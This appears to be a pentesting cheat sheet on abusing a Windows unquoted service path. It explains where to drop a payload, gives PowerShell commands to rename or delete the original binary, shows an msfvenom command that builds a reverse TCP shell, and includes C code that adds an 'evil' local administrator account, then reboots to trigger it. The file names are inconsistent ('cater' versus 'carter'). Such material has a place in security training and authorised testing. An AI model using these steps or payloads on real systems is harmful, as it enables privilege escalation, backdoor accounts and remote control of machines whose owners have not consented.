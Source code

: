 # Unquoted Service Path Attack

### Identify a writable directory where the target file is located

- ***If the target file is located in `C:\Program Files\cater\cater_term.exe` we should see if the following a writable:***

1. `C:\`, if this is writable we would name the payload `Program.exe`
2. `C:\Program\`, if this is writable we would name the payload `Files.exe`
3. `C:\Program Files\`, if this is writable we would name the payload `carter.exe`
4. `C:\Program Files\carter\`, if this is writable we would name the payload `carter_term.exe` and delete/rename the original `carter_term.exe`

- ***Steps to rename/delete the file so we can replace it:***

1. Rename: `Rename-Item -Path "C:\<Full Path\<File Name>" -NewName "C:\<Full Path\<New Name>"`
2. Delete" `Remove-Item -Path "C:\<Full Path\<File Name>"` and for recusive, add a `-recurse`

- ***Creating the payload:***

1. Create a reverse shell executable with msfvenom `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`
2. Create a new administrator account with some compiled C code and use `gcc <program.c> -o <executable name.exe>` to compile it
```
    #include <stdlib.h>
    int main ()
    {
      int i;
      
      i = system ("net user evil Ev!lpass /add");
      i = system ("net localgroup administrators evil /add");
      
      return 0;
    }
```
- ***Execution:***

1. Once payload is in position, and any other listeners are set up, execute `Restart-Computer` to restart the computer and either created a new admin or got an admin shell.
